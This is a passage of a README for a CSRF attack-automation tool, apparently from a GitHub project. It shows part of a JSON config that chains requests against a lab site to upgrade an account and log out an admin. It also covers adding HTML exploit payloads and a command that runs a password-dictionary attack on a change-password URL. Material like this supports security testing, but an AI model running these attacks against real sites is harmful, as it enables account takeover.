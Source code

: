 ```
                        "comment": "then, after the login session, we expect the admin to be logged in, attempt to upgrade our account"
                    }
                ]
            },          
            {
                "attack": [
                    {
                        "method": "GET",
                        "type_attack": "special_value",
                        "url": "http://192.168.56.1/vuln-website/index.php/welcome/logout",
                        "comment": "The final step is to logout the admin"
                    }
                ] 
            }   
        ]
    }
}
```

You can now define some "steps", different attacks that will be executed in a certain order. 

### Use cases 

#### A) I want to write my specific JSON configuration file and launch it by hand

Based on the templates which are available, you can easily create your own.
If you have any trouble creating it, feel free to contact me and I'll try to help you as much as I can but it shoudn't be this complicated.

**Steps to succeed :**

**1)** Create your configuration file, see samples in ```conf/``` folder<br />
**2)** Add your .html files in the ```exploits/``` folder with the different payloads if the CSRF is POST vulnerable<br />
**3)** If you want to do Dictionnary attack, add your dictionnary file to the ```dicos/``` folder,<br />
**4)** Replace the value of the field you want to perform this attack with the token ```<%value%>``` <br />
      => either in your urls if GET exploitation, or in the HTML files if POST exploitation. <br />
**5)** Launch the application : ```node server.js conf/test.json```<br />


#### B) I want to automate attacks really easily

To do so, I developed a Python script **csrft_utils.py** in ```utils``` folder that will do this for you. 

Here are some basic use cases :

**GET parameter with Dictionnary attack : **

```
$ python csrft_utils.py --url="http://www.vulnerable.com/changePassword.php?newPassword=csvulnerableParameter" --param=newPassword --dico_file="../dicos/passwords.txt"
```
